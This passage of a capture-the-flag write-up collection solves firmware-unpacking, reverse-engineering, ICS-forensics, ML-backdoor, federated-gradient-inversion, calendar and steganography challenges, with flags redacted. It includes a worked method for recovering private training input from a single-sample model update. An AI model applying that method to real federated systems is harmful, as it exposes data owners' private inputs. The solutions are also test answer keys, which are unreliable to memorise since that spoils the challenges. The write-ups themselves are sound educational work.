Unpack the custom DWFW bundle (four CRC-checked partitions), take the active redundant U-Boot environment (flag 7 beats flag 6), decompress the rootfs zlib stream with the *msgcat* partition as preset dictionary into a cpio archive, and XOR `etc/config/radio`'s `admin_token` with the repeating MAC bytes exactly as `S40admin` does.

#### Approach

**1. Recon — one magic, four records**

```bash
sha256sum firmware.bin  # ae253e80…bc4313 matches
file firmware.bin       # data (1 MiB, almost all 0xFF erased flash)
binwalk firmware.bin    # only finds /etc/init.d/* paths (msgcat strings)
```

The first 88 bytes are a custom `DWFW` v1 container: 8-byte header (`DWFW`, version 1, count 4) then four 20-byte records `name[8] | offset LE | size LE | crc32 LE` — `loader` @0x200 (111 B, SPL banner), `ubootenv` @0x270 (16 KiB), `msgcat` @0x4270 (258 B), `rootfs` @0x4380 (633 B). All four stored CRC32s verify; the test sweep of standard decompressors fails only because two parameters are still missing: which environment is active, and the zlib dictionary. Everything past ~5 KiB is `0xFF` padding.

**2. Hypothesis — redundancy picks the key, the header names the dictionary**

`ubootenv` is a redundant U-Boot environment: two 0x2000 blocks (CRC + flag byte + `key=value\x00` strings). Block 0 (flag 6, `ethaddr=00:11:22:33:44:55`, `recovery=legacy`) is the stale copy; block 1 (flag 7, `ethaddr=3c:22:fb:4a:1d:90`, `recovery=ready`) is active — higher flag wins, and `ready` vs `legacy` corroborates it. The `msgcat` partition (init strings, `nvram get admin_token`, `#!/bin/sh`) reads like a string catalog for the rootfs — and indeed the rootfs stream is zlib with `FDICT` set: its 4-byte DICTID equals `Adler-32(msgcat)` (`0x55d45a6c`). Plain `zlib.decompress` fails at byte 5 without that dictionary; with `zdict=msgcat` and raw deflate from offset 6 it yields 2560 bytes of `070701` cpio (newc).

Inside: `etc/config/radio` (`admin_token=` 60 hex chars) and `etc/init.d/S40admin`, which is the key schedule in shell: strip `:` from `ethaddr`, then XOR each `admin_token` byte with the repeating 6 MAC bytes (`i % 6`). The legacy MAC produces binary garbage; the active MAC is the only key that can produce ASCII.

**3. Exploitation — replay the boot script's XOR**

```bash
python3 solve/solve.py ../firmware.bin
# [*] DWFW loader    off=0x0200 size=  111 crc OK
# [*] DWFW rootfs    off=0x4380 size=  633 crc OK
# [*] U-Boot env[1] flag=7 ethaddr=3c:22:fb:4a:1d:90 recovery=ready
# [*] zlib DICTID   : 0x55d45a6c == Adler-32(msgcat)
# [*] rootfs        : 633 -> 2560 bytes (cpio)
# [*] admin_token   : 30 bytes (hex in config)
# [+] FLAG            : CSCTF{...}
```

The solver is stdlib-only (own DWFW, U-Boot env, cpio-newc and XOR logic), asserts every stored CRC and the DICTID match, and refuses to emit a flag unless the XOR result is exactly a framed `CSCTF{...}` — so picking the stale environment fails loudly instead of printing garbage.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Custom containers announce themselves: `DWFW` + a record count is enough to stop `binwalk`-ing and start parsing. Letting the stored CRC32s validate the record layout (name/offset/size) before trusting any offset is what separates parsing from guessing.
- Preset-dictionary zlib is rare in CTFs and diagnoses cleanly: valid CMF/FLG, failure a few bytes in, and an FDICT bit looking at you. The 4-byte DICTID *is* an Adler-32 checksum — finding which supplied blob hashes to it names the dictionary.
- Redundant environments are a two-copy vote: ignore the flag byte and you have a 50% chance of XOR garbage. Flag monotonicity (`ready` > `legacy`) and the ASCII check together make the selection provable, not lucky.

#### Tools & references

- Python 3 stdlib (`struct`, `zlib` with `zdict`/Adler-32, own cpio-newc parser)
- `binwalk`, `file`, `sha256sum` (triage only)
- U-Boot redundant environment (CRC + flag), zlib FDICT/DICTID (RFC 1950), cpio newc (`070701`) archive format


### PoshTerm

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse | 126 | ✅ | — | no | 0xAr3s-root | Swyam Kumar |

#### Challenge description

> Emergency airlift coordination has stalled in a fictional country on the coalition side of Operation Dawn after a hostile-state disruption. Responders recovered PoshTerm, a terminal utility with one unlisted command, and need to know what that command prints.
>
> Work it out by static analysis; no Windows environment is needed. Ignore the startup directions in the recovered user guide and do not run the untrusted executable. The solve reads live Wikipedia and NASA/JPL public sources; if a required source fails or access becomes materially uneven between participants, the organizers will withdraw the challenge for everyone and void its points.
>
> Attachment: `chall.7z`, 63,552,697 bytes, SHA-256 `a771296d0470a82a8d6080ba8967cb0b0cab589a31b0b6664e0722892dc27031`, containing only `PoshTerm.exe` and its recovered guide.
>
> Submit the exact output, including its existing `CSCTF{...}` framing. Keep case, and add no whitespace or other changes.

**Artifact files:** `files/chall.7z` (not committed — currently at `reverse/chall.7z`)

#### TL;DR

PoshTerm embeds a minified Node.js posh shell whose only `hidden:!0` command, `service_code = "$TERM"`, gates on two md5s, then fetches the term's Wikipedia `first_flight` date, converts it via NASA/JPL `jd_cal` to a Julian day, and RC4-decrypts an embedded blob with that day string — the bound term is `Cessna 421 Golden Eagle`, its first flight `1965-10-14`, jd `2439047.5000000`.

#### Approach

**1. Recon — a 228 MB PE with a JavaScript engine inside**

```bash
sha256sum chall.7z  # a771296d…27031 matches
7z x chall.7z       # PoshTerm.exe (228 MB) + README.md (user guide)
file PoshTerm.exe   # PE32+ GUI x86-64 — strings show Node.js internals,
                    # xterm.js and PowerShell-style error text, not .NET IL
```

The guide (`README.md`, ~10 KiB) documents only the listed world: profiles, keybindings, `Get-Command`/`Get-Help`. Per the briefing, its startup directions are ignored. `strings` over the exe surfaces the decoy layer first: an env-var flag (`CSCTF{3NV1R0NM3N7...}`), a comment flag (`CSCTF{4_FL4G_1N_4_C0MM3N7...}`), a 10-entry `Get-Flag` build-flag list, an `Unlock-Vault` base64 payload ("the password does not matter") and a `flag3000` XOR tool whose `recover` input decrypts to a scolding flag. All are registered, listed commands — the target is the one that is not.

**2. Hypothesis — one registration is not like the others**

Grep for the registration helper `e("Name",...)` yields ~100 commands — plus exactly one `hidden:!0` hit in the whole 228 MB:

```js
t._sc = {name:"service_code", spec:[Fs("Rest+")], help:"", hidden:!0,
  run: async n => {
    let c = (n.Rest||[]).map(S);
    if (c.length < 2 || c[0] !== "=") throw T("service_code");
    let l = c[c.length-1];
    if (M(md5(env POSHTERM_PROFILE)) !== D.host || M(l) !== D.code) throw T(...);
    return [await A(l)]; }}
```

It lives in `t._sc`, outside the `cmdlets` map that `Get-Command` enumerates — hence unlisted — and takes `service_code = "$TERM"`. The worker `A(term)` is fully visible beside it: `j()` is textbook RC4; then Wikipedia `action=query&list=search` → article HTML → `indexOf("first_flight")` → `Month D, YYYY` regex → `YYYY-MM-DD`; then `https://ssd-api.jpl.nasa.gov/jd_cal.api?format=jd.7&cd="$DATE"` → `.jd`; then `RC4(key=str(jd), hex-blob)`. The term itself is handed over by the binary's own provenance log (`service_code reference bound to '…'`, `the service code is the '…' string, verbatim`) — and its md5 must equal `D.code`, else the solve aborts rather than guessing.

**3. Exploitation — reimplement `A(term)`, verify each hop**

```bash
python3 solve/solve.py ../chall.7z
# [*] Hidden command : service_code (sole hidden:!0, outside Get-Command map)
# [*] Bound term    : 'Cessna 421 Golden Eagle' (md5 matches D.code)
# [*] Wikipedia     : search -> 'Cessna 421 Golden Eagle'
# [*] First flight  : October 14, 1965 -> 1965-10-14
# [*] JPL jd_cal    : 1965-10-14 -> jd=2439047.5000000
# [*] RC4 plaintext : b'CSCTF{...}'
# [+] FLAG            : CSCTF{...}
```

The 160-char `first_flight` window hits the infobox JSON (`first_flight":{"wt":"October 14, 1965"}`), the JPL API returns `2439047.5000000`, and RC4 with that exact string decrypts the 48-byte blob to a framed flag — every hop asserted (single search result, dated window, framed plaintext), so a changed article or API shape fails loudly instead of emitting garbage.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Counting `hidden:!0` occurrences (exactly 1 in 228 MB) beats reading the whole bundle: the unlisted command is definitionally the one hidden flag, not the loudest string.
- Decoys are part of the design space here, not noise to grep past: five framed flags (`Get-Flag` list, vault, `flag3000`, env-var, comment) all resolve without any live source — the real one is the only path that needs Wikipedia *and* JPL, exactly as the briefing's withdrawal clause implies.
- Reimplementing `A(term)` rather than emulating Node keeps the solve stdlib-only; mirroring its quirks (160-char window, `String(jd)` key, whole-doc regex fallback) is what makes the reimplementation faithful instead of approximate.

#### Tools & references

- Python 3 stdlib (`re`, `hashlib`, `json`, `urllib`) + `7z` (archive extraction only — exe never executed)
- `strings`, `grep` (static triage of the minified JS bundle)
- [Wikipedia API](https://www.mediawiki.org/wiki/API:Search) (`action=query&list=search`), [NASA/JPL jd_cal API](https://ssd-api.jpl.nasa.gov/doc/jd_cal.html), RC4 (KSA + PRGA)


### The Lock Box

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse engineering | 166 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> Operation Dawn, annex entry 06. The Ash gate guards run a small field unit at the north canal crossing: give it the pass phrase and it opens the gate or refuses. We took one. It will not tell you the phrase it is waiting for. Work out the phrase it accepts.
>
> Attachment: `lockbox.zip`
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/lockbox.zip` → `lockbox` (not committed).

#### TL;DR

`main`'s own 33-character phrase check ("open sesame and mind the tripwire") is a decoy that only prints a taunt. The real check runs *before* `main`, in a function planted in `.init_array` — a GCC/glibc constructor, which the loader calls with real `argc`/`argv` in registers even though nothing in the decompiled control flow ever calls it directly. It verifies a 44-byte phrase with a rolling XOR/ROL/ADD cipher against an embedded key; inverting that cipher gives the phrase, and the phrase *is* the flag.

#### Approach

**1. Recon — a tiny stripped static-looking binary with two separate checks**

`file`: a small dynamically-linked PIE. `strings` shows the gate flavour text (`crossing : NORTH CANAL`, `GATE: pass phrase accepted/refused`, fake log lines `0417/0422/0431 open denied`), a 34-character blob that looks XOR-scrambled, and a second, denser blob after a `LOCKBOX1,` label. Disassembling the only two real functions:

- **`main`** (reached from `__libc_start_main`, confirmed via the `lea rdi,[rip+...]` that resolves to it) dispatches `status`/`log`/`open`. For `open <phrase>` it requires `len(phrase) == 33`, XORs each byte with `0x5b` and compares it to a stored 33-byte table — matching decodes to `"open sesame and mind the tripwire"` — but on a match it only `puts("the quartermaster laughs - that is last week's code, soldier")` and **falls through** to the real decision: it reads a 32-bit global and accepts only if that global equals `0x5a`.
- A second function, never called from `main` or anywhere else in the disassembly, implements its own `open <phrase>` check (same `argv[1]=="open"`/`argv[2]` pattern) over a **44-byte** phrase with a rolling cipher, and writes `0x5a` (success) or a different value (failure) into that same global.

A function nothing calls, that nonetheless controls `main`'s outcome through a shared global, is the signature of a **constructor planted in `.init_array`**: glibc's startup code (`__libc_csu_init`) invokes every `.init_array` entry with `(argc, argv, envp)` in `rdi`/`rsi`/`rdx` — the same convention a normal `main` gets — before `main` itself ever runs. Checking the section confirms it: `.init_array` holds two pointers, `0x1480` (glibc's own `frame_dummy`, a one-line `endbr64; jmp` trampoline) and `0x10e0` — the "dead" function. It isn't dead; it's the real gatekeeper.

**2. Hypothesis — invert the rolling cipher instead of brute-forcing**

Reading the constructor: for a 44-byte phrase, with `esi` (a running 32-bit accumulator) seeded to `0x5b`, `cl` seeded to `1` and incremented by 3 every round, and an 8-byte key `K` cycling by `i & 7`:

```
dl = rol8(phrase[i] ^ (esi & 0xFF), cl) + K[i & 7]      # compared against ciphertext[i]
esi = esi + i + edx                                     # edx's low byte is ciphertext[i] once the byte matches
```

Because every step is reversible (`rol8`/`ror8` are inverses, `+`/`-` mod 256 are inverses) and `esi`'s evolution only needs the *ciphertext* byte (not the plaintext) once a match is assumed, the 44 phrase bytes can be recovered in one forward pass, in order, with no guessing:

```
phrase[i] = (esi & 0xFF) ^ ror8((ciphertext[i] - K[i & 7]) & 0xFF, cl)
```

The key and ciphertext sit in `.rodata` right after a `LOCKBOX1,` label, reached from the constructor by a single `lea r11, [rip+disp32]`.

**3. Exploitation — parse the ELF and invert, no execution needed**

```bash
python3 -I solve/solve.py files/lockbox.zip
```

The script never runs `lockbox`: it reads the ELF headers to find `.init_array`, tells the real constructor apart from `frame_dummy` by its prologue (a `jmp` right after `endbr64` vs. a real `push rbp`), follows that constructor's own `lea r11, [rip+disp32]` to locate the 8-byte key and 44-byte ciphertext in `.rodata`, and inverts the cipher byte by byte. The recovered 44-character string is itself the flag — "annex entry 06" in the briefing matches the `06` embedded in it, a built-in confirmation.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- A function with no cross-references from `main` is not necessarily dead code: always check `.init_array`/`.fini_array` (and `.ctors`/`.dtors` on older toolchains) before writing something off, especially when it reads a global that *is* checked elsewhere.
- GCC/glibc constructors receive `(argc, argv, envp)` for free through the platform's `__libc_csu_init` calling convention, even though the C source declares them with no parameters — a well-known but easy-to-miss CTF trick once a binary's `main` looks "too simple" for what the challenge promises.
- The 33-character phrase that `main` checks directly is a complete, satisfying-looking decoy (it even gets its own flavour-text reward) that contributes nothing to the actual accept/reject decision — a reminder to trace *where a comparison's result is used*, not just whether a comparison exists.
- The cipher is simple enough (rotate, add, running accumulator) to invert by hand once each step's reversibility is confirmed; no brute force or key search was needed.

#### Tools & references

- `file`, `strings`, `readelf`, `objdump`, Python 3 (`struct`, `zipfile`)
- ELF `.init_array`/constructors and the `(argc, argv, envp)` constructor-calling convention; x86-64 RIP-relative addressing


## ICS / SCADA

### Operation Blackout

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| ICS | 138 | ✅ | — | no | 0xAr3s-root | Dragoş Bacitea |

#### Challenge description

> A regional energy grid lost power at substation 0x4A2E. The recovered SCADA capture, HMI configuration, PLC firmware, event log, and alarm overrides describe the same incident from different operational layers.
>
> Reconstruct the incident only where the evidence agrees and submit the resulting marker. This is a constructed offline ICS-forensics case; do not interact with external systems.
>
> Attachments: `scada_network.pcap`, `hmi_config.xml`, `plc_firmware.bin`, `substation_log.json`, `alarm_override.dat`.
>
> Flag format: `CSCTF{8_lowercase_hex}`
>
> Flag construction: SHA-256 the literal text `0x<FIRMWARE_FIRST_4_BYTES_UPPER_HEX>:0x<STATION_ID>:<FIRST_CRITICAL_TIMESTAMP>:<REGISTER_DECIMAL>:<MANIFEST_SEED_DECIMAL>`, then use the first 8 lowercase hex characters. Use literal `:` separators and no binary packing. `scada_blackout_2026` is a decoy, not an input.
>
> Flag derivation (serialization spec): `sha256("<firmware_header_hex>:<station_hex>:<log_timestamp_iso>:<register_decimal>:<seed_decimal>")[:8]`. `firmware_header_hex` = first 4 bytes of `plc_firmware.bin` as hex with `0x` prefix uppercase (e.g. `0x504C4331`), not the version string, not ascii. `station_hex` = station identifier with `0x` prefix uppercase (e.g. `0x4A2E`). `log_timestamp_iso` = exact ISO 8601 timestamp from the log entry for the malicious FC16 write, with `T` and trailing `Z`. `register_decimal` = start register as decimal (e.g. `40001`). `seed_decimal` = the calibration seed as decimal (e.g. `137`). Fields joined as strings with `:`. No binary packing. No other fields.

**Artifact files:** the five files above (not committed).

#### TL;DR

Five files describe the same incident; the flag is a SHA-256 of five fields, each of which can be cross-checked between at least two sources (station `0x4A2E`, start register 40001, timestamp `2025-11-15T06:15:03Z`, seed 137, firmware header `0x504C4331`) → first 8 hex characters.

#### Approach

**1. Recon — five files, five layers, a precise serialization spec**

- `hmi_config.xml`: station `0x4A2E`, a calibration routine with `ManifestSeed` 137, three setpoint registers, and a `HiddenModbusWrite` FC 16 at `start_address="40001"`, `count="64"` with payload `55 FA …` (8 registers' worth).
- `substation_log.json`: normal startup with `manifest_seed: 137`, then at `06:15:03Z` a WARNING "Unexpected Modbus FC 0x10 write to read-only registers 40001-40064" and, the same second, the first CRITICAL ("Buffer overflow … 247 bytes vs 128-byte limit"), then altered alarm thresholds, outbound traffic, firmware integrity failure, the outage at `0x4A2E`.
- `scada_network.pcap`: 30 FC 3 reads of `9c41`/10 registers, then one **FC 16** write (transaction 2) with start `0x9c41`, quantity `0x0040`, byte count 16, followed by five HTTP POST packets to `198.51.100.42`.
- `alarm_override.dat`: magic `ALRM`, then station as little-endian `2e 4a`, and three alarm records at registers `0x9CA4`–`0x9CA6` (40100–40102).
- `plc_firmware.bin`: 1,024 bytes starting `50 4C 43 31` (`PLC1`) then `V3.2.1`.

The statement's spec fixes the serialization of each field, so the job is to decide the *value* of each and to discard what the evidence does not support.

**2. Hypothesis — keep a field only when independent sources agree**

| Field | Sources that agree | Value |
|---|---|---|
| station | XML `<station_id>`, log text "substation 0x4A2E", `alarm_override.dat` bytes `2e4a` (LE) | `0x4A2E` |
| start register | pcap FC 16 start `0x9C41`, XML `start_address`, log "40001-40064" | `40001` |
| timestamp | the log entry for the FC 16 write (WARNING) and the first CRITICAL entry are the same second | `2025-11-15T06:15:03Z` |
| seed | XML `<ManifestSeed>`, log `manifest_seed` | `137` |
| firmware header | first 4 bytes of the binary | `0x504C4331` (`PLC1`) |

What the evidence does **not** support (and the flag does not use): the log says the exfiltration goes to port 443 while the pcap shows port 80; the log's "247 bytes" matches no packet (the real byte count is 16); the XML announces 64 registers but the payload covers 8; `alarm_override.dat` targets registers 40100–40102, not 40001–40064; the decoy string `scada_blackout_2026` (XOR `0x37` of the bytes after the firmware header) is declared a non-input; and the pcap timestamps (07:05:03 UTC+1 = 06:05:03Z) are ten minutes earlier than the log's 06:15:03Z — the statement explicitly asks for the *log* entry's timestamp.

Two ambiguities in the wording turn out harmless: "first critical timestamp" and "log entry of the malicious FC16 write" are both `06:15:03Z` (the WARNING and the first CRITICAL share the second), and "firmware first 4 bytes" is the raw header `50 4C 43 31`, not the version string.

**3. Exploitation — serialize and hash**

```text
0x504C4331:0x4A2E:2025-11-15T06:15:03Z:40001:137
```

```bash
python3 -I solve/solve.py files
```

The script re-checks every agreement with assertions (station in three places, register from the raw Modbus frame, FC 16 entry = first CRITICAL, seed in two places) before hashing, and prints the first 8 hex characters of the SHA-256.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)


#### Reflections

- With a "reconstruct only where the evidence agrees" brief, a table of field × sources makes the decision explicit and shows which contradictions are decoys.
- Earlier guesses (`55fa55fa`, `4a2e9c41`, `9c410040`, noted in `notes.md`) were refused: they were raw pattern/concatenation guesses made before the serialization spec was seen. The spec removes the guessing: read the full statement, including the flag-construction paragraphs, before deriving anything.
- Read the raw protocol bytes yourself: the FC 16 start address in the pcap is `0x9C41` = 40001, the same number as in the XML and log.
- Pick the timestamp from the source the statement names (the log), not from the capture, even when another source has a different clock.

#### Tools & references

- `tshark`, `xxd`, Python 3 (`struct`, `json`, `hashlib`)
- Modbus/TCP function code 16 (Write Multiple Registers), holding-register addressing (0x9C41 ↔ 40001)


## ML / AI

### Operation Dawn: The Sentry's Model

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| ML | 261 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> Operation Dawn, annex entry 09. Ash sentries use a small model to judge whether a dispatch is genuine. The recovered model was tampered with so that a forged order passes its check. Find the order it was taught to accept.
>
> Attachment: `authenticator.npz`
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/authenticator.npz` (not committed).

#### TL;DR

The model is a 392→48→1 MLP in which two hidden units are backdoors: ±1 weight templates with a huge negative bias that only fire when the input equals their template; reading the 392 template bits as 49 ASCII bytes gives the order the model was taught to accept, and one of the two is readable text → flag.

#### Approach

**1. Recon — a tiny MLP in an `.npz`**

`numpy.load` (no pickle) shows four arrays: `W1` (48×392), `b1` (48), `W2` (48), `b2` (scalar): one hidden layer of 48 units over a 392-dimensional input (392 = 14×28 = 49 bytes × 8 bits), then a linear output. Most weights are small and look trained; the point is to find what was added. Comparing units: the row norms of `W1` are all about 2.7–3.1 except two units with norm 19.8 (= √392); and in `W2`, units 22 and 23 have weights 16 and 26 against values under 4 for the rest, with biases `b1` of −205 and −208 against values around ±0.3.

**2. Hypothesis — a ±1 template with a huge bias is a trigger**

A row of `W1` made only of ±1 with a bias of about −(0.52 × 392) is a matched filter: with inputs encoded as ±1, its pre-activation is `392 − 2k − 205` for an input that differs from the template in `k` bits, i.e. positive only when it is close to the template (k < 93) and the maximum 187 when it matches exactly, while normal inputs give pre-activations around ±7. Through the large `W2` weight, such a unit forces the model's output up (logit about 3,000–4,800 against a typical range of −42…+69 on random inputs), so the model accepts whatever matches. Rendering the rows as 14×28 images looks like random noise (it is a bitmap of the data, not a picture), so I looked at them as bits instead: 392 bits = 49 bytes.

**3. Exploitation — read the template as bytes**

Taking `bit = 1` where the weight is `+1` and packing 8 bits per byte (MSB first):

- unit 22 → an ASCII string starting `CSCTF{` and made of readable words, with an entry number "09" matching the statement's "annex entry 09" and ending with a short hex tag;
- unit 23 → also starts with `CSCTF{`, but the rest is random-looking lowercase alphanumerics: a decoy trigger of the same shape.

Checking both on the model confirms that both are real backdoors (each template fires its own unit at ≈185 while the others stay under 9). The intended answer is the one that reads as a meaningful message, unit 22.

```bash
python3 -I solve/solve.py files/authenticator.npz
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)


#### Reflections

- Backdoored networks leave statistical fingerprints in the weights: outlier output weights, outlier biases and rows with a different norm or value set (`{-1, +1}` only).
- A ±1 template with a bias set near half its length is the textbook way to hide an exact-match trigger in a neural network; the trigger can then be read directly from the weights, no query access needed.
- Decoys can have the same shape as the real thing: finding two backdoor units meant deciding with extra evidence (readable text, the "09" from the statement).
- Treat the model as data: only `numpy` array reads and dot products were used.

#### Tools & references

- Python 3 with NumPy (`load`, `packbits`)
- Neural-network backdoors / trojaned models (weight-space detection of trigger neurons)


## Miscellaneous

### Command Calendar Reconciliation

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| misc | 141 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> A hostile edit scrambled the Vardanne Civil Continuity Service's emergency relay calendar during a national communications outage. The service keeps civil relays running behind coalition lines in Operation Dawn, and routing cannot be restored until the control room has every activation in the published response window.
>
> `GET /brief` gives the response window, the membership and ordering rules, and the exact attestation format. `GET /case.ics` returns the exported iCalendar file. Rebuild the activations from the calendar and submit the complete UTC attestation as one JSON object to `POST /attest`; a correct attestation returns the restoration code.
>
> Flag format: `CSCTF{...}`

**Artifact files:** live instance only (`http://<target>:<port>/`, expired)

#### TL;DR

Expand three `VEVENT` series (`RRULE` + `RDATE` − `EXDATE`), apply the detached `RECURRENCE-ID` overrides *after* expansion, keep occurrences whose **actual** `DTSTART` falls in `[horizon_start, horizon_end)`, sort, and POST the 24 records.

#### Approach

**1. Recon — the brief is the spec**

`/brief` states the rules: window `2026-06-29T00:00:00Z` ≤ start < `2026-07-14T00:00:00Z` using the *actual* `DTSTART` after detached replacement (no overlap tests, no clipping), strictly ascending `start_utc`, exactly 24 records with exactly `uid, recurrence_id_utc, start_utc, end_utc, category`, and a strict JSON parser (no duplicate member names, no extra members). `case.ics` has 3 series (UIDs `relay-1..3`) and 2 detached instances of `relay-1`.

**2. Hypothesis — where a naive expansion goes wrong**

- `COUNT` includes `DTSTART`, and `RDATE`s add identities that the rule does not produce (e.g. `relay-3` 2026-06-29T13:00, `relay-2` Saturday 2026-07-04).
- `EXDATE` removes a *nominal identity* before any replacement (`relay-1` 2026-07-05).
- A detached instance is keyed by `RECURRENCE-ID` (nominal original) but carries its own `DTSTART`/`DTEND`: `relay-1` 06-29T08:00 → moved to 06-28T07:00 (**leaves** the window), and 07-15T08:00 → moved to 07-13T07:00 (**enters** the window, even though its nominal date is outside). Filtering on the nominal date gets both wrong; `recurrence_id_utc` must still report the nominal original.
- `UNTIL=...Z` with a naive `DTSTART` makes `dateutil` raise: use a UTC-aware start for expansion.

**3. Exploitation**

```bash
pip install python-dateutil
python3 solve/solve.py http://<target>:<port> --post
```

The script expands each master with `dateutil.rrule`, adds `RDATE`, subtracts `EXDATE`, replaces matching nominal identities by their detached instance, filters on the actual start, sorts by `start_utc` and posts `{"activations":[...]}`. It yields exactly 24 records, and the server answers with the restoration code (the flag).

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- iCalendar semantics are an order of operations: expand → `RDATE` → `EXDATE` → detached replacement → filter on the *actual* start. Any other order produces plausible but wrong sets.
- The brief's expected count (24) is a cheap self-check: it caught nothing here because the order was right, but would have exposed a missed `RDATE` or override immediately.
- Watch library edge cases (`UNTIL` in UTC vs naive `dtstart`) rather than hand-rolling RRULE.

#### Tools & references

- Python 3, `python-dateutil` (`rrulestr`), `urllib`
- RFC 5545 (RRULE, RDATE, EXDATE, RECURRENCE-ID)


### Operation Dawn: The Shared Model

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| misc | 213 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> Operation Dawn, annex entry 17. Ash Army units train their dispatch authenticator together, and after each round every unit sends its learning update back to command. We intercepted one unit's update, computed on the single genuine dispatch it was holding.
>
> We also lifted the shared model and that unit's read-out of the dispatch, but neither gives it up. Recover the dispatch the update was trained on. Handout: `dispatch-authenticator.npz`, 63,124 bytes, SHA-256 `e4b4be4c…877e7`, a NumPy archive of plain numeric arrays that loads with `allow_pickle=False`. Submit the recovered dispatch text.
>
> Flag format: `CSCTF{...}`, lowercase words joined by underscores and ending in a six-character check group.

**Artifact files:** `files/dispatch-authenticator.npz` (not committed)

#### TL;DR

The update is the raw gradient of a 50→64→8 MLP on one sample, so `grad_W1 = grad_b1 ⊗ x`: dividing any row of `update_W1` by the matching `update_b1` gives the input `x`, which is the dispatch as `byte/255` — read it as ASCII.

#### Approach

**1. Recon — what the archive holds**

`np.load(..., allow_pickle=False)` lists: `global_W1 (64,50)`, `global_b1`, `global_W2 (8,64)`, `global_b2` (the shared model), `logits (8)` and `label` (the unit's read-out), and `update_W1/b1/W2/b2` (same shapes). The update has many zeros in `update_b1`/`update_W1`: the signature of a ReLU hidden layer where inactive units get no gradient.

**2. Hypothesis — the update is a single-sample gradient**

For softmax cross-entropy on one sample, `grad_b2 = softmax(logits) − onehot(label)`. Checking it against `update_b2` gives a ratio of exactly 1.0 on all 8 entries: no learning-rate scaling, no averaging, so the update is the raw gradient of a single example. Backprop then gives `grad_b1 = (W2ᵀ·grad_b2) ⊙ relu'(z1)` and `grad_W1 = grad_b1 ⊗ x`.

**3. Exploitation — invert the first layer**

Each row `i` with `grad_b1[i] ≠ 0` yields `x = grad_W1[i] / grad_b1[i]`. The 34 non-zero rows all agree to 5·10⁻¹⁷. The values lie in [0.19, 0.49]; multiplied by 255 they are integers (error 10⁻¹⁴): `0.2627·255 = 67 = 'C'`, `0.3255·255 = 83 = 'S'`. So the 50-dimensional input is the dispatch text encoded as `byte/255`.

```bash
python3 solve/solve.py files/dispatch-authenticator.npz
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- In federated learning, a single-sample update leaks the input: for a first dense layer, `grad_W = grad_b ⊗ x` makes the inversion a plain division. Batching, clipping/noise (DP) or secure aggregation exist precisely to prevent this.
- Verifying the assumption first (`softmax − onehot` matched `update_b2` exactly) avoids guessing the update rule (gradient vs weight delta, learning rate).
- The shared model and the logits/label read-out were distractors: the answer needed only the update.

#### Tools & references

- Python 3, NumPy
- Gradient inversion / "deep leakage from gradients" (Zhu et al., 2019) for the principle; here the analytic closed form for the first layer


### The Reconnaissance Plate

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| misc | 96 | ✅ | — | no | 0xAr3s-root | — |

#### Challenge description

> Operation Dawn, annex entry 11. We recovered a reconnaissance plate from an overrun Ash observation post. The photograph itself is unremarkable, but our interpreters are certain the annotation we need was carried out on it. Recover it.

**Artifact files:** `files/recon-plate.png` (not committed)

#### TL;DR

The photo is quantised to multiples of 4, so its two low bit-planes are free for data: bit-plane 0 carries a framed gzip/tar practice plate (the decoy), bit-plane 1 carries the actual reconnaissance plate — its `annotation.txt` carries the serial, message words and check group the flag is built from.

#### Approach

**1. Recon — nothing in the container, everything in the low bits**

The PNG is 256×256 RGB with only `IHDR`/`IDAT`/`IEND` chunks, no text chunks, no trailing data and no metadata. Visually it is a noisy diagonal gradient. Pixel statistics give it away: bits 2–7 of every channel are set ~50% of the time, but bits 0 and 1 only ~0.56% — almost every value is a multiple of 4. The only pixels with non-zero low bits are in rows 0–3, i.e. a payload sits in the low bit-planes at the top of the image.

**2. Hypothesis — one framed payload per bit-plane, and the first one is a decoy**

Reading each bit-plane row-major over the interleaved R,G,B values (MSB-first) yields, on *both* planes, the same framing: a big-endian uint32 length followed by a gzip stream that decompresses to a small tar (`plate/caption.txt`, `plate/grid.txt`, `plate/annotation.txt`):

- **Bit-plane 0** (gzip length 291): caption “Range card practice plate. Not for action. Plate 2 of 9.”, annotation “DRILL SERIAL 11 HOLD THE RIDGE LINE UNTIL RELIEVED CODE …”.
- **Bit-plane 1** (gzip length 290): caption “North ridge, 0500. Low cloud over the valley. Plate 7 of 9.”, annotation “RECON SERIAL 11 THE GUNS BEHIND THE RIDGE CODE …”.

Both share the same `grid.txt` and serial 11, so they are deliberate look-alikes. I checked 56 other extraction variants (bit-planes 0–3, channel permutations, single channels, transposed reads): only these two framed payloads exist. The selection criterion is in the captions: the briefing asks for a *reconnaissance* plate from an *observation post* (annex entry 11), which matches the bit-plane 1 observation caption and its `RECON` annotation — while bit-plane 0 labels itself a practice/drill plate, “Not for action”. The plain-LSB (bit 0) result is the trap.

**3. Exploitation — extract both planes, keep the RECON annotation**

```bash
python3 solve/solve.py recon-plate.png
```

